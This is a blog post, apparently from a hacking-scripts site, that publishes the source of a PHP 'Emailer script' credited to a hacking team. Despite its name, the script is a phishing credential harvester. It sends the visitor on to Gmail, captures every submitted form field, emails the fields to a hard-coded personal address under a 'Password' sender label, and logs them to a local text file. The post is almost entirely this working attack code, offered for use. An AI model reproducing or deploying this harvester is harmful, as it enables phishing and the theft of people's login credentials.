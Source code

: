 ```yaml
---
id: 237
title: Emailer script
author: admin
layout: post
guid: http://hackingscripts.com/?p=237
permalink: /emailer-script/
categories:
  - PHP
tags:
  - emailer
  - PHP
---
```

Emailer script &#8211; Coded by Hangaw_HawlerY of H4KurD-TeaM


### Emailer Script Source Code

{% highlight php linenos %}<?php

/* 
H4KurD-TeaM
www.h4kurd.com
Coded By : Hangaw_HawlerY
Email: Hangaw_HawlerY@Yahoo.com , Hangaw_HawlerY@Hotmail.com 
All Right Reserved
*/

header ('Location: https://www.gmail.com');

$posts        = '';
foreach($_POST as $k =&gt; $v){
    $posts .= '$_POST['.$k.'] = '.$v."\n";
}

$posts       .= "---------------------------------------------------\n";
$emailto    = 'pramod.sin321@gmail.com';
$subject    = $_SERVER['HTTP_HOST']."-".$_SEREVER['SERVER_NAME'];
$from        = "From: Password &lt;h4kurd.team@gmail.com&gt;";
$body        = '
'.$posts.'
';

@mail($emailto, $subject, $body, $from);
$handle = @fopen("h4kurd.txt", "a+");
@fwrite($handle, $posts);
fclose($handle);
?>
{% endhighlight %}